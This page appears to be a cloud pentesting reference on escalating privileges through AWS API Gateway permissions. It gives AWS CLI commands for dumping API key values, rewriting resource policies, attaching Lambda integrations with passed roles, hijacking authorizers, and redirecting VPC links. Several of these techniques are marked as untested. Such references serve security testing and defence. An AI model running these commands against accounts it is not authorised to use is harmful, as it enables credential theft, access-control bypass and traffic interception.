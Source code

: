 # AWS - Apigateway Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Apigateway

For more information check:

{{#ref}}
../aws-services/aws-api-gateway-enum.md
{{#endref}}

### `apigateway:POST`

With this permission you can generate API keys of the APIs configured (per region).

```bash
aws --region <region> apigateway create-api-key
```

**Potential Impact:** You cannot privesc with this technique but you might get access to sensitive info.

### `apigateway:GET`

With this permission you can get generated API keys of the APIs configured (per region).

```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```

**Potential Impact:** You cannot privesc with this technique but you might get access to sensitive info.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

With these permissions it's possible to modify the resource policy of an API to give yourself access to call it and abuse potential access the API gateway might have (like invoking a vulnerable lambda).

```bash
aws apigateway update-rest-api \
    --rest-api-id api-id \
    --patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```

**Potential Impact:** You, usually, won't be able to privesc directly with this technique but you might get access to sensitive info.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

> [!NOTE]
> Need testing

An attacker with the permissions `apigateway:PutIntegration`, `apigateway:CreateDeployment`, and `iam:PassRole` can **add a new integration to an existing API Gateway REST API with a Lambda function that has an IAM role attached**. The attacker can then **trigger the Lambda function to execute arbitrary code and potentially gain access to the resources associated with the IAM role**.

```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Access to resources associated with the Lambda function's IAM role.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

> [!NOTE]
> Need testing

An attacker with the permissions `apigateway:UpdateAuthorizer` and `apigateway:CreateDeployment` can **modify an existing API Gateway authorizer** to bypass security checks or to execute arbitrary code when API requests are made.

```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Potential Impact**: Bypassing security checks, unauthorized access to API resources.

### `apigateway:UpdateVpcLink`

> [!NOTE]
> Need testing

An attacker with the permission `apigateway:UpdateVpcLink` can **modify an existing VPC Link to point to a different Network Load Balancer, potentially redirecting private API traffic to unauthorized or malicious resources**.

```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```

**Potential Impact**: Unauthorized access to private API resources, interception or disruption of API traffic.

{{#include ../../../banners/hacktricks-training.md}}




